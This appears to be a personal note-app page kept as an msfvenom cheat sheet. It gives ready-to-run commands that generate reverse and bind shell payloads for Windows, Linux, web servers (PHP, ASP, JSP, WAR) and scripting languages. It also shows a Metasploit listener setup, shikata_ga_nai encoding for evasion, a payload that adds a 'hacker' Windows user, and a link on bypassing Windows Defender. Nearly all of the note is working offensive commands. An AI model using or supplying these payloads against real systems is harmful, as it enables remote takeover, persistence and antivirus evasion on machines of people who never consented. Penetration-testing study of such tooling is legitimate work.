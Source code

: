 Msfvenom

## Creating a payload

- msfvenom -p \[payload\] LHOST=\[listeninghost\] LPORT=\[listeningport\]

To view list of payloads:

> msfvenom -l payloads

To view the payload options:

> msfvenom -p windows/x64/meterpreter\_reverse\_tcp --list-options

To view formats to output

> msfvenom --list formats
> 
> msfvenom --list encoders

## Creating a payload with encoding

- msfvenom -p \[payload\] -e \[encoder\] -f \[formattype\] -i \[iteration\] &lt;var=value&gt; > outputfile

## Creating a payload using a template

- msfvenom -p \[payload\] &lt;var=value&gt; -x \[template\] -f \[formattype\] > outputfile

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

- msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f exe -o shell.exe -a x86\_64
- msfvenom -p windows/meterpreter\_reverse\_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe -o shell.exe
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell\_reverse\_tcp LHOST=&lt;KALI IP&gt; LPORT=443 EXITFUNC=thread -f c –e x86/shikata\_ga\_nai -b "\\x00\\x0a\\x0d\\x25\\x26\\x2b\\3d"

## Linux Payloads

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell\_bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell\_reverse\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom:

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

- msfvenom -p php/meterpreter\_reverse\_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.php
    cat shell.php | pbcopy && echo '&lt;?php ' | tr -d '\\n' &gt; shell.php && pbpaste >> shell.php</your></your>

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=!KALIIP LPORT=!PORT -f asp > shell.asp
- msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=192.168.119.168 LPORT=4445 -f aspx > shell.aspx
    

JSP

- msfvenom -p java/jsp\_shell\_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.jsp</your></your>

WAR

- msfvenom -p java/jsp\_shell\_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f war > shell.war</your></your>

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.py</your></your>

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.sh</your></your>

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.pl</your></your>

Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\_ga\_nai -b "\\x0A\\x0D"

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/

id: c5501ccb1e8d457f9a5080d28007af2e
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2019-11-27T02:15:20.390Z
updated_time: 2022-04-22T08:30:32.224Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1611575146763.25
user_created_time: 2019-11-27T02:15:20.390Z
user_updated_time: 2022-04-22T08:30:32.224Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1